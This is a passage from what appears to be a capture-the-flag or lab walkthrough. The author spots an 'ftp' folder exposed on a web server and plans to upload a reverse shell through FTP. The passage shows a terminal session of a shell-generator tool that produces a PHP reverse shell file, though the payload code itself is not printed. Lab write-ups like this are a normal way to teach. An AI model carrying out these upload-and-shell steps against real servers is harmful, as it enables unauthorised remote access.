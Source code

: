 > - I found a Folder name is *"files"*

![files Picture](./Startup-Images/files.png)

> - Now, as I look at this page, I see that the folder named 'ftp' matches the name used in the FTP login. This means we can upload a reverse shell file to the 'ftp' folder on the FTP server to establish a connection with the web server. Let's give it a try!

**FIRST STEP :** *CREATE A REVERSE SHELL FILE*
- iS MY BEST Tool [Dark-Shell](https://github.com/harleyv1/Dark-Shell-V1)

```bash
    _____             _           _____ _          _ _ 
    |  __ \           | |         / ____| |        | | |
    | |  | | __ _ _ __| | _______| (___ | |__   ___| | |
    | |  | |/ _` | '__| |/ /______\___ \| '_ \ / _ \ | |
    | |__| | (_| | |  |   <       ____) | | | |  __/ | |
    |_____/ \__,_|_|  |_|\_\     |_____/|_| |_|\___|_|_|     

Drink Coffe, Enjoy Generate Shell                  by 0xPwn1 - V1.2                                                                                                 

Enter IP or Name-Interface: tun0
[~] Enter Your PORT: 1337
[~] Enter Name File (Without Extension): Shell
  ~) - Bash          ~) - Mfikto
  ~) - Perl          ~) - Perl-No-Sh
  ~) - Php           ~) - Rustcat
  ~) - Python        ~) - Netcat
  ~) - Powershell    ~) - Ruby
  ~) - Java          ~) - Groovy
  ~) - Awk           ~) - Nodejs


Choose Your Language: Php
  ~) - php            ~) - php1  ~) - php2
  ~) - php3           ~) - php4  ~) - php5
  ~) - php6           ~) - php7  ~) - php8
  ~) - php9           ~) - phtml ~) - phar


What PHP Version are you using: php
The modified file has been saved as Shell.php
```

